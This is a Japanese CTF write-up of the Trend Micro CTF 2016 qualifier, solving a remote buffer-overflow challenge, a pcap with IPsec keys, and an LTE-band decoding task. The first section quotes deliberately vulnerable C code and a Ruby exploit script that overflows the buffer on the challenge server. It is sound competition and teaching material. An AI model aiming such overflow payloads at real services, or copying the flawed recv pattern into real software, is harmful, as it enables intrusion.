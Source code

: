 +++
date = "2016-07-31T14:26:56+09:00"
title = "Trend Micro CTF 2016 Online qualifier"

+++

日本時間 2016-07-30 13:00 から 2016-07-31 13:00まで（24時間）に行われた[Trend Micro CTF 2016](http://www.trendmicro.co.jp/jp/sp/ctf2016_jp/)のwrite-upです。

urandomは4問解答し600点、92位でした。

# Analysis - Offensive 200

> Category: Analysis - offensive
>
> Points: 200
>
> This challenge is composed of a simple remote overflow of a global array. The server address is 52.197.128.90 and the vulnerable application listens on TCP port 80-85. Each port has the same behavior so you can select one of them.
>
> The following code contains a bug that can be exploited to read back a flag:
>
```c
int pwned;
char buffer[1024];

DWORD WINAPI CallBack(LPVOID lpParameter) {
	pwned = 0;
	ZeroMemory(buffer, 1024);
	SOCKET *sock = (SOCKET *)lpParameter;
	SOCKET _sock = *sock;
	send(_sock, "Welcome", 8, 0);
	int ret = 0;
	ret = recv(_sock, buffer, 1028, 0);
	printf("[x] RET: %d.\n", ret);
	printf("[x] PWNED: 0x%x.\n", pwned);
	Sleep(1);
	if (((pwned >> 16)&0xFFFF ^ 0xc0fe) == 0x7eaf && (((pwned & 0xFFFF)^0x1a1a) == 0xdae4)) {

			send(_sock, "PWNED", 5, 0);
			ReadAndReturn(L"key.txt", _sock);
			closesocket(_sock);
			return 0;
	}
	else {
		send(_sock, "GO AWAY", 7, 0);
		closesocket(_sock);
	}

	return 0;
 }
```
>
>
> Craft a packet that would return a valid flag. Good luck!

`buffer`が1024バイトしか確保されていないにもかかわらず、11行目で `ret = recv(_sock, buffer, 1028, 0);` と1028バイト読み込むようになっている。したがって、1025-1028バイトの範囲に特定のバイト列を仕込めばよい。満たすべき条件は15行目のif文。

なぜか `nc` が1024バイトで送信を打ち切ってしまったので、Rubyで書いた。

```ruby
require 'socket'

HOST = '52.197.128.90'
port = (80..85).to_a.sample

puts "connecting #{HOST}:#{port}"
sock = TCPSocket.open('52.197.128.90', port)

payload = 'a' * 1024 + "\xfe\xc0\x51\xbe"

sock.read(8)
sock.send(payload, 0)
while r = sock.gets
  puts r
end
```

そして正解をメモし忘れた 😇

# Misc 100

> Category: Misc(iot and network)
>
> Points: 100
>
> Please analyze this pcap.

pcapファイルが渡される。中身を見ると、IPsecな通信と、普通にtelnetしている通信がある。

Wiresharkでtelnetでのやりとりをテキストとして見ると、 `ip xfrm state`を叩いている箇所がある。

```
.]0;reds@localhost:~.[reds@localhost ~]$ sudo ip xfrm state
.sudo ip xfrm state
[sudo] password for reds: ynwa
.
src 1.1.1.11 dst 1.1.1.10
	proto esp spi 0xfab21777 reqid 16389 mode tunnel
	replay-window 32 flag 20
	auth hmac(sha1) 0x11cf27c5b3357a5fd5d26d253fffd5339a99b4d1
	enc cbc(aes) 0xfa19ff5565b1666d3dd16fcfda62820da44b2b51672a85fed155521bedb243ee
src 1.1.1.10 dst 1.1.1.11
	proto esp spi 0xbfd6dc1c reqid 16389 mode tunnel
	replay-window 32 flag 20
	auth hmac(sha1) 0x829b457814bd8856e51cce1d745619507ca1b257
	enc cbc(aes) 0x2a340c090abec9186c841017714a233fba6144b3cb20c898db4a30f02b0a003d
src 1.1.1.10 dst 1.1.1.11
	proto esp spi 0xeea1503c reqid 16389 mode tunnel
	replay-window 32 flag 20
	auth hmac(sha1) 0x951d2d93498d2e7479c28c1bcc203ace34d7fcde
	enc cbc(aes) 0x6ec6072dd25a6bcb7b9b3b516529acb641a1b356999f791eb971e57cc934a5eb
src 1.1.1.11 dst 1.1.1.10
	proto esp spi 0xd4d2074d reqid 16389 mode tunnel
	replay-window 32 flag 20
	auth hmac(sha1) 0x100a0b23fc006c867455506843cc96ad26026ec0
	enc cbc(aes) 0xdcfbc7d33d3c606de488c6efac4624ed50b550c88be0d62befb049992972cca6
```

この情報を元に、IPsecの通信の中身を見ることができる。すると、HTTPでいくつかやりとりをしている箇所が見つかる。その中に `flag.png` というファイルのダウンロードが含まれている。これを抽出して開くと、フラグが書かれている。


# Misc 200

> Category: Misc(iot and network)
>
> Points: 200
>
> find all LTE bands this phone supported.
>
> the final answer will be from small to big, and use ',' to seperate without spaces.
>
> example> if the answer is band 1 and 2 and 3, the key should be: "TMCTF{1,2,3}"

`ModemSettings.txt` というファイルが与えられ、そこからその携帯電話の対応しているLTEバンドを答える。

この `ModemSettings.txt` はどうやら NV-items_reader_writerというソフトウェアによる出力らしい。

LTEのバンドに関する設定は"6828"番にあるという。該当する箇所を引用する。

```
6828 (0x1AAC)   -   OK
FF 1D 1F 03 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

ここに書き込まれている数値が対応LTEバンドを表している。ビット単位で読んで、あるビットが立っていたら、そのビットと対応するバンドをサポートしていることを意味している。最右ビットがバンド1に対応する。

寝起きでつらいワンライナーを書いておしまい。エンディアンに注意。

```ruby
i=0; puts (0x031F1DFF).to_s(2).reverse.split(//).map { |c| i +=1; [c, i] }.select { |x| x[0] == '1' }.map { |x| x[1] }.join(',')
```
